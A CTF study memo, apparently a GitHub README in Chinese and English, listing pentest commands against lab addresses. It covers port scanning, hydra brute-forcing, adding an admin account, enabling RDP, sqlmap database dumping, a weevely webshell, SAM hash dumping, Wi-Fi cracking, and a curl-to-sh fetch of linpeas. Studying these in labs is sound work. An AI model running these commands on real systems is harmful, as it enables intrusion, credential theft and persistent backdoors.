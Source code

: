# CTF Memo
## _nmap_
網路設備及服務掃描
```sh
sudo nmap 10.10.10.16  //1000 port
sudo nmap 10.10.10.16 -p-  //1-65535 port
sudo nmap 10.10.10.16 -sU -p53,139,161,1900,5353  //UDP port
sudo nmap 10.10.10.16 -p80 --reason  //REASON
sudo nmap 10.10.10.16 -p80 --open  //display only open port ip
sudo nmap 10.10.10.16 -O  //OS
sudo nmap 10.10.10.16 -sV  //VERSION
sudo nmap 10.10.10.16 -sVC -p445,3389  //VERSION + NSE
sudo nmap 10.10.10.* -sU -p161 --open  //SNMP
sudo nmap 10.10.10.16 -sU -p161 -sC  //使用 NSE 預設腳本
sudo nmap 10.10.10.16 -sU -p161 --script snmp-win32-users  //user account

```
## _snmp-check_
SNMP 設備列舉
```sh
sudo snmp-check 10.10.10.16
```
## _nbtscan_
NetBOIS 掃描
```sh
sudo nbtscan 10.10.10.1-254
```
## _hydra_
破密工具
```sh
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst ftp://10.10.10.16
```
## _enum4linux_

列舉Windows訊息
```sh
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```
## _crackmapexec_
網域滲透工具
python3 -m pip install --upgrade impacket  (更新)
```sh
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
```
## _net_

```sh
net use \\10.10.10.16 slave /u:king
net view \\10.10.10.16
net user queen /add
net users
net localgroup Administrator queen /add
net localgroup Administrators
```
## _reg add_

新增機碼
```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
## _netstat_
網路狀態
```sh
netstat -an | findstr :3389
```
## _sqlmap_
SQL檢測注入工具
```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
```
## _weevely_
Webshell
```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```
## _wpscan_
WordPress安全性掃描工具
```sh
wpscan --url http://url -e u  //列舉使用者
wpscan --url http://url -P /usr/share/wordlists/nmap.lst  //破密
```
## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```
## _john_
破密工具
```sh
john secret.txt --format=raw-md5
```
## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```
## _impacket upgrade_

```sh
python3 -m pip install --upgrade impacket
```
## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
## License

MIT
